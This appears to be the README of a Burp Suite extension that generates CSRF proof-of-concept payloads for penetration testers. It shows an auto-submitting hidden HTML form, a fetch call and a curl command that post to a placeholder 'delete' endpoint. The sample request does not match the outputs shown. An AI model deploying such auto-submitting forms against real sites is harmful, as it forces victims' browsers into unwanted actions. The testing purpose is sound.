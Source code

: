 # 🛡️ CSRF PoC Generator - Burp Suite Extension

A powerful and user-friendly Burp Suite extension that automatically generates **Cross-Site Request Forgery (CSRF) Proof-of-Concept (PoC)** payloads in multiple formats (HTML form, JavaScript Fetch API, and cURL). Ideal for penetration testers and bug bounty hunters.

---

## 📦 Features

✅ Generate CSRF PoCs directly from Burp Suite requests.
✅Automatically extracts parameters from URL query string (GET) or request body (POST).  
✅ Support for multiple formats:
  - HTML Form
  - JavaScript Fetch API
  - cURL Command  
✅ UI features:
  - Format selector
  - Syntax highlighting (optional)
  - Copy to Clipboard
  - Auto-submit toggle
  - Preview in browser
  - Save as HTML  
✅ Handles both **GET** and **POST** methods  
✅ Extracts all form parameters automatically

---

## 📥 Installation Guide

### ✅ Requirements

- Burp Suite (Community or Professional)
- Jython standalone JAR (e.g., [Download Jython 2.7.2](https://www.jython.org/download))
- `csrf-poc-generator.py` (this extension file)

### 🧠 Optional (for syntax highlighting)

- Download `rsyntaxtextarea.jar` from [RSyntaxTextArea Releases](https://github.com/bobbylight/RSyntaxTextArea/releases)
- This enables code highlighting in the UI.

---

### 🛠️ Step-by-Step Installation in Burp Suite

1. **Launch Burp Suite**

2. Go to **Extender > Options > Python Environment**  
   Click `Select file...` and choose the **Jython standalone JAR** you downloaded.

3. Go to **Extender > Extensions**  
   Click `Add`  
   - Extension Type: **Python**
   - Extension File: Browse and select `csrf-poc-generator.py`

4. (Optional) Under **Options > Include Library JARs**, add:
   - `rsyntaxtextarea.jar` if syntax highlighting is desired.

5. Once loaded, you should see **"CSRF PoC Generator"** listed under the Extensions tab.

---

## ⚙️ How to Use (Step-by-Step)

1. **Capture or send a request** using **Proxy** >HTTP history, **Repeater** or **Intruder**.

2. **Right-click** on the request.

3. Select **Extensions**>**"Generate CSRF PoC"** from the context menu.

4. A new window will pop up with:
   - The generated CSRF PoC in the selected format
   - Dropdown to choose format: HTML, JS Fetch API, or cURL
   - Checkbox to enable/disable Auto-submit (HTML only)
   - Buttons to:
     - Copy PoC to Clipboard
     - Preview in Browser
     - Save as HTML
     - Close Window

---

## 📋 Example
---

Suppose you hava a POST requests with the following paramaters:-

```html
POST /progile HTTP/1.1
Host: targetsite.com

username=alice&action=update&token=abc123
```

### 🔹 HTML Form Output

```html
<form id="csrfForm" action="http://example.com/delete" method="POST">
    <input type="hidden" name="id" value="42" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.getElementById('csrfForm').submit();
</script>
```

### 🔹 JavaScript Fetch API Output

```javascript
fetch("http://example.com/delete", {
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded"
    },
    body: "id=42"
});
```

### 🔹 cURL Command Output

```bash
curl -X POST -d "id=42" "http://example.com/delete"
```


## 🤝 Support & Contributions

We welcome contributions and improvements! Here's how you can help:

- ⭐ **Star** this repository to show your support
- 🐛 **Report bugs** or request features via [GitHub Issues](https://github.com/Shiv-cybr03/CSRF-PoC-Generator/issues)
- 🍴 **Fork the repository** and submit a Pull Request with your enhancements
- 💬 Provide feedback or suggestions in the Issues tab

Please follow the [Code of Conduct](CODE_OF_CONDUCT.md) and contribute respectfully.

---

## 📄 License

This project is licensed under the [MIT License](LICENSE).
